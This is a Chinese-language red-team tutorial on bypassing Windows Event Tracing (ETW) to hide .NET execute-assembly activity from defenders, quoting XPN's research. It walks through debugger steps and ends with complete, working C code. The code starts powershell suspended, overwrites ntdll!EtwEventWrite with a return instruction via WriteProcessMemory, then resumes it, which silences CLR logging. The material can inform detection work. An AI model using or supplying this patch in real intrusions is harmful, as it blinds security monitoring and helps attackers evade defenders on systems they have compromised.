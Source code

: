 # 基于内存补丁ETW的绕过

## 简介

通常在红队行动中，面临的最大挑战并不是诸如杀毒、EDR之类的防护软件，红队行动中工具&代码的杀毒绕过只是事前工作\(基本功\)，所以攻击者使用的工具&代码往往在本地就比较完备的完成了免杀工作，在这样的背景下，如何让工具尽可能少的留下痕迹就成为了红队成员首要解决的问题。

在cobaltstrike中实现了在非托管进程中加载托管代码的功能模块execute-assembly，而这个功能因为操作系统提供的API（ ICLRMetaHost[、](https://www.21ct.cc/)ICLRRuntimeInfo、ICLRRuntimeHost）在实现上并不复杂，但是这并不影响它的实用性。

## 技术原理

对于检测CLR进行的操作\(托管进程\)一种比较好的方法就是通过Windows事件跟踪（ETW\),虽然该功能最早是为了调试和监控性能引入的，但是这并不妨碍它成为监控execute-assembly等功能的行为操作。

如我们正常开启一个powershell\(属于托管进程\)，在进程加载过程中就会产生大量日志记录，我们可以通过processhacker，进行查看。

![](../.gitbook/assets/image%20%28125%29.png)

根据前人的研究结果，我们可以知道ETW是由用户空间ntdll.dll!EtwEventWrite发起的\(这里手动@xpn\)，这样我们对其绕过也能比较方便的实现。

> ### How does the CLR surface events via ETW? <a id="how-does-the-clr-surface-events-via-etw"></a>
>
> Hopefully by this point the goal is obvious, we need to stop ETW from reporting our malicious activity to defenders. To do this we first need to understand just how the CLR exposes its events via ETW.
>
> Let's take a look at `clr.dll` to try and see if we can spot the moment that an event is triggered. Loading the PDB and hunting for the `AssemblyDCStart_V1` symbol using Ghidra, we quickly land on the following method:

> ![](../.gitbook/assets/image%20%28116%29.png)

> Let's see if we can find the exact point that an event is generated reporting the Assembly load which we observed above with our ETW consumer. Dropping into WinDBG and setting a breakpoint on all `ntdll!EtwEventWrite` calls occurring after the `ModuleLoad` method above, we quickly discover the following where we can see our Assembly name of "test" is being sent:

> ![](../.gitbook/assets/image%20%28124%29.png)

> So this tells us 2 things. First, these ETW events are sent from userland, and second that these ETW events are issued from within a process that we control... And as we know, having a malicious process report that it is doing something malicious never ends well.

根据XPN大佬的研究结果，我们尝试patch ntdll!EtwEventWrite来验证结论是否正确，这里使用x64dbg和powershell来验证。

首先使用x64dbg创建一个powershell进程，这时x64dbg会在线程初始化前下一个断点。

定位到ntdll!EtwEventWrite。

![](../.gitbook/assets/image%20%28118%29.png)

一般windows api默认使用stdcall\(x86\)调用约定，这里x64默认使用fastcall，即函数内平衡堆栈，以防万一我们确认一下，堆栈的平衡方式会决定我们的内存补丁写法。

![](../.gitbook/assets/image%20%28123%29.png)

这时我们使用一起BypassAmsi的方式在函数开头直接返回。

![](../.gitbook/assets/image%20%28119%29.png)

在processhacker中查看clr日志。

![](../.gitbook/assets/image%20%28120%29.png)

我们发现现在无法读取到任何日志。

## 代码

代码的话拿AMSI的随便改改就行。

由于ntdll在进程加载之初就已经导入，所以这里不需要短暂睡眠，直接挂起创建就行。

```text

#include <Windows.h>
#include <stdio.h>
#include <Tlhelp32.h>
int main() {
	STARTUPINFOA si = {0};
	PROCESS_INFORMATION pi = { 0 };
	si.cb = sizeof(si);

	CreateProcessA(NULL, (LPSTR)"powershell -NoExit", NULL, NULL, NULL, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
	LPVOID pEtwEventWrite = GetProcAddress(hNtdll, "EtwEventWrite");

	//Sleep(500);

	DWORD oldProtect;
	char patch = 0xc3;

	VirtualProtectEx(pi.hProcess, (LPVOID)pEtwEventWrite, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
	WriteProcessMemory(pi.hProcess, (LPVOID)pEtwEventWrite, &patch, sizeof(char),NULL);

	VirtualProtectEx(pi.hProcess, (LPVOID)pEtwEventWrite, 1, oldProtect, NULL); 
	ResumeThread(pi.hThread);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	//FreeLibrary(hNtdll);
	return 0;

}
```

![](../.gitbook/assets/image%20%28117%29.png)

## LINKS

{% embed url="https://blog.xpnsec.com/hiding-your-dotnet-etw/" %}



